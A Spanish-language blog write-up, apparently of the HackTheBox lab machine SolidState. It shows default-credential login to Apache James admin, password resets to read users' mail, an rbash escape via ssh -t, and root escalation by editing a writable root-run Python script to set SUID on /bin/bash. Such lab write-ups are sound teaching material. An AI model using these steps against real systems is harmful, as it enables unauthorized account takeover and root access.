 ```yaml
---
title: "HackTheBox - SolidState"
layout: post
date: 2022-05-26 18:03
image: /assets/images/SolidState/snake_logo.jpg
headerImage: true
tag:
- htb
- hacking
- writeup
category: blog
description: Writeup de SolidState
---
```


# SolidState

Dificultad: Medium
OS: Linux

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina SolidState.

Es una máquina Linux con una dificultad media.

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando **ping -c 1 {IP}** y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Linux.

![Untitled](../assets/images/SolidState/Untitled.png)

Nmap encuenta 6 puertos abiertos siendo estos el 22, 25, 80, 110, 119, 4555.

![Untitled](../assets/images/SolidState/Untitled%201.png)

Haciendo un escaneo de versiones sobre estos puertos encontramos que utiliza James 2.3.2, lo que más llama la atención es el puerto 4555, James Remote Administration Tool 2.3.2

![Untitled](../assets/images/SolidState/Untitled%202.png)

Buscando exploits encontramos un RCE, y en el código encontramos que los credenciales por defecto son root:root

![Untitled](../assets/images/SolidState/Untitled%203.png)

Y al intentar conectar vemos que las credenciales por defecto funcionan. Con help sacamos los comandos que nos deja ejecutar, siendo listusers y setpassword en las que nos centraremos.

![Untitled](../assets/images/SolidState/Untitled%204.png)

![Untitled](../assets/images/SolidState/Untitled%205.png)

Primero vamos a probar con el usuario de james.

```
setpassword james password
Password for james reset
```

Entramos y no tiene ningún correo, asi que procedemos a ir uno a uno mirando si algún usuario tiene correos.

![Untitled](../assets/images/SolidState/Untitled%206.png)

Rápidamente encontramos que john tiene un correo pidiendo que restrinja al usuario mindy y que la envíe un correo con una contraseña temporal

```text
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

En el correo de mindy encontramos el mensaje con el usuario y contraseña y ahora podemos acceder por ssh a la cuenta de mindy.

```text
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@ SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

![Untitled](../assets/images/SolidState/Untitled%207.png)

Nos encontramos que nos da una rbash (restricted shell) y solo podemos usar cat, env y ls. Al tener cat ya podemos leer flag.txt y tener el user.

![Untitled](../assets/images/SolidState/Untitled%208.png)

## Escalada de privilegios

No es problema tener una rbash ya que es muy fácil hacer bypass de la rbash, ya que cuando entramos en el ssh podemos especificar un comando, por lo que usando el parámetro -t y bash entramos en una bash.

![Untitled](../assets/images/SolidState/Untitled%209.png)

Para encontrar qué procesos se ejecutan a la larga, voy usar el comando **ps -eo command** que te saca todos los comandos que se van ejecutando y así compararlo con uno nuevo para ver que se ejecuta a la larga.

```bash
#!/bin/bash

last_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$last_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        last_process=$(ps -eo command)
done
```

Encontramos que cada x tiempo se ejecuta tmp.py que está en /opt asi que vamos a mirarlo.

![Untitled](../assets/images/SolidState/Untitled%2010.png)

Encontramos que pertenece al root y que puedo escribir en el, asi que ahora lo tenemos fácil.

![Untitled](../assets/images/SolidState/Untitled%2011.png)

![Untitled](../assets/images/SolidState/Untitled%2012.png)

Modifico el .py para otorgar privilegios SUID a la bash. Los privilegios SUID dan privilegios de ejecución del propietario, en este caso root.

```python
#!/usr/bin/env python

import os

os.system("chmod u+s /bin/bash")
```

Aquí se puede ver como se asigna ese bit s, por lo que ya tengo SUID.

![Untitled](../assets/images/SolidState/Untitled%2013.png)

Y ahora abriendo otra bash, tenemos privilegios de root y por ende, la flag.

![Untitled](../assets/images/SolidState/Untitled%2014.png)